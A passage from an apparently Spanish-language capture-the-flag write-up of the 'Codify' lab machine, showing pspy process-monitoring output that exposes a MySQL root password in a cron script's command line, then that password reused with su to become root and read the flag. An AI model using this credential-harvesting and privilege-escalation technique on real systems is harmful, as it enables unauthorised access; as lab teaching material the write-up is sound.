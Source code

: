 ```bash
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done

...[snip]...

2025/02/14 17:28:08 CMD: UID=0     PID=2428   | /bin/bash /opt/scripts/mysql-backup.sh 
2025/02/14 17:28:08 CMD: UID=0     PID=2430   | /bin/bash /opt/scripts/mysql-backup.sh 
2025/02/14 17:28:08 CMD: UID=0     PID=2429   | /usr/bin/mysql -u root -h 0.0.0.0 -P 3306 -pkljh12k3jhaskjh12kjh3 -e SHOW DATABASES; 
```

Intentamos revisar si estas credenciales se reutilizan para el usuario `root`, logramos convertirnos y visualizar la flag de **root.txt**.

```bash
joshua@codify:~$ su root
Password: 
root@codify:/home/joshua# cat /root/root.txt 
16a752da1ccc4*******************
```
